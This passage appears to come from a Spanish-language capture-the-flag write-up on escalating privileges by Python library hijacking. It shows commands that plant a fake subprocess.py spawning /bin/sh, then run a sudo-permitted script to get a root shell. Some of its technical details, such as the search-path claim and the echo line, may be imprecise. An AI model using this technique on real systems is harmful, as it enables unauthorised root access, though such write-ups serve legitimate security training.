 ```python
if __name__ == "__main__":  
   main()
```
intentamos modificar el archivo para ejecutar comandos, pero no tengo permisos

El script importa librerías como `subprocess` sin rutas absolutas. Esto es una vulnerabilidad conocida como "secuestro de librerías" (library hijacking). Python busca las librerías primero en el directorio actual antes de las rutas del sistema.

Para explotar esto, creamos un archivo `subprocess.py` en el mismo directorio donde se ejecutará `paw.py` (en este caso, `/opt/`) con código malicioso que nos dé un shell de `root`:

```bash
touch subprocess.py
echo 'import os\nos.system("/bin/sh")' > subprocess.py
```

Luego, ejecutamos el script `paw.py` con `sudo`:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Dado que `subprocess.py` se encuentra en el directorio actual, Python lo importará en lugar de la librería legítima, ejecutando nuestro código. 

```bash
whoami # root
```
